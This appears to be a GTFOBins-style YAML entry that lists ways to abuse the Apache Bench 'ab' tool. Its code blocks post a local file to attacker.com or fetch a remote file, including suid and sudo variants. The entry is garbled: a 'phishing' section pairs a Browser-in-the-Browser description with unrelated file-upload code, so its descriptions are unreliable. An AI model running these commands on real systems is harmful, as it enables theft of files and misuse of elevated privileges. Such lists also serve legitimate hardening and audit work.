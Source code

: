 ```yaml
---
functions:
  phishing:
    - description: A BitB attack is a novel phishing technique that replicates pop-up windows used for SSO in an effort to steal login credentials.
      code: |
        URL=http://attacker.com/
        LFILE=file_to_send
        ab -p $LFILE $URL
  file-download:
    - description: Fetch a remote file via HTTP GET request. The response is returned as part of the verbose output of the program with some limitations on the length.
      code: |
          URL=http://attacker.com/file_to_download
          ab -v2 $URL
  suid:
    - description: Upload local file via HTTP POST request.
      code: |
        URL=http://attacker.com/
        LFILE=file_to_send
        ./ab -p $LFILE $URL
  sudo:
    - description: Upload local file via HTTP POST request.
      code: |
        URL=http://attacker.com/
        LFILE=file_to_send
        sudo ab -p $LFILE $URL
---
```

